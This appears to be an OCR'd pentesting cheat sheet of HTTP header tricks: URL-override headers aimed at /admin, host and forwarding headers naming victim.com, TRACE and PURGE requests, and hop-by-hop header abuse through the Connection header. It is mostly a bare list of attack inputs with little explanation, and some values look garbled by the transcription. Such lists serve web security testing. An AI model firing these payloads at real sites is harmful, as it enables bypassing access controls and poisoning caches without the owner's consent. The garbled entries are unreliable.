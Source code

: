 




###### Headers list
```
X-Forwarded-Proto: http
X-HTTP-Host-Override: HEAD
X-Rewrite-URL: /admin
X-Original-URL: localhost
```
- `X-Original-URL` - `X-Rewrite-URL`
-   `X-Host` 
-   `X-Forwarded-Server`
-   `Forwarded`
-  `X-Real-Ip`
- `Fastly-Host: victim.com
- `x-forwarded-proto`
- X-Forwarded-Proto : https

```HTTP
TRACE / HTTP/1.1
PURGE / HTTP/1.1
```
- hop-by-hop headers [removed at first hop]
```HTTP
GET / HTTP/1.1
Keep-Alive
Transfer-Encoding
TE
Connection
Trailer
Upgrade
Proxy-Authorization
Proxy-Authenticate
```
- adding custom hop-by-hop header using `connection`
```HTTP
GET / HTTP/1.1
X-Foo: hop-by-hop
X-Bar: hop-by-hop
Connection: close,X-Foo,X-Bar
```
